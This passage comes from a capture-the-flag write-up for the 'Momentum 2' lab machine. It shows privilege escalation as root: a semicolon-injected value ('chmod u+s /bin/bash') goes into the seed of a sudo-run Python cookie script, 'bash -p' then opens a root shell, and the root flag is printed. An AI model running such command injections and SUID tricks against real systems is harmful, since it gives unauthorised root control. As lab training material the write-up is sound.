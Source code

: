 This is a snippet of Python code that generates a random cookie based on a seed provided by the user and then logs that seed to a log file called "log.txt" in the current working directory.

But we notice that at the end of the code we have a thread parameter, so we can run the program and pass the seed to it, then filter it with a ";" a shell command.
```bash
sudo python3 /home/team-tasks/cookie-gen.py
```
And we pass it the seed and the command that we want to filter in the input, it would look like this:

```bash
mhil4ne;chmod u+s /bin/bash
``` 
now we simply switch to bash, with the ``-p`` parameter

```bash
bash -p
```
With this we have root access to the victim machine, we locate the root flag in the /root directory.

```bash
cat root.txt
//                    \\
}  Rooted - Momentum 2 {
\\                    //

---------------------------------------------------
FLAG : 4bRQL7jaiFqK45dVjC2XP4TzfKizgGHTMYJfSrPEkezG
---------------------------------------------------
```
-------------------------------------------------------------------------------
